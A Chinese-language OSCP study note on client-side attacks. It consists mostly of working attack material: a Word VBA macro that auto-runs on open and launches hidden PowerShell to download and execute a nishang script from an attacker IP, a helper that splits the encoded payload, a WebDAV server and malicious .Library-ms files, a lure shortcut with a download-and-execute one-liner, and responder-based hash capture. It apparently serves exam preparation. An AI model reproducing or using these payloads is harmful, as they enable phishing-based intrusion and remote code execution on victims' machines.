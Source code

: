+++
ShowToc = true
TocOpen = true
title = '客户端攻击'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'OSCP笔记'
+++


# 宏

后缀建议为doc或者docm

宏攻击代码：

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
     Str = Str + "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY"
     Str = Str + "3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5"
     Str = Str + "nKGh0dHA6Ly8xOTIuMTY4LjQ1LjI0MC9uaXNoYW5nLnBzMSkKC"
     Str = Str + "g=="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

字符串base64编码内容：
配合nishang:

```
iex(new-object net.webclient).downloadstring("http://192.168.45.240/nishang.ps1")

IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')

echo 'IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')
'|base64

```
py脚本分割：
```
str = "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKGh0dHA6
Ly8xOTIuMTY4LjQ1LjI0MC9uaXNoYW5nLnBzMSkKCg=="

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

如果base64不行，不如直接明文：

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
     Str = "powershell.exe -nop -w hidden -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')"

    CreateObject("Wscript.Shell").Run Str
End Sub

```

powershell.exe -nop -noni -w hidden -exec bypass -enc

# 库文件

1、开启webdav服务：

```
安装
pip3 install wsgidav

创建一个文件夹，然后运行：
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

2、创建库文件

文件名：config.Library-ms

修改URL就好：

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.227</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<cr><url>http://192.168.45.227</url></cr>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```


3、在wevdav下面放一个快捷方式

名字随便就好，这里是automatic_configuration，引诱点击即可：

内容为powershell一句话上线：

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:81/nishang.ps1')
```


# 第二种方式

https://github.com/xct/hashgrab

```
python3 hashgrab.py <ip> <output>

sudo responder -i 192.168.45.197 -I tun0

.lnk文件
```
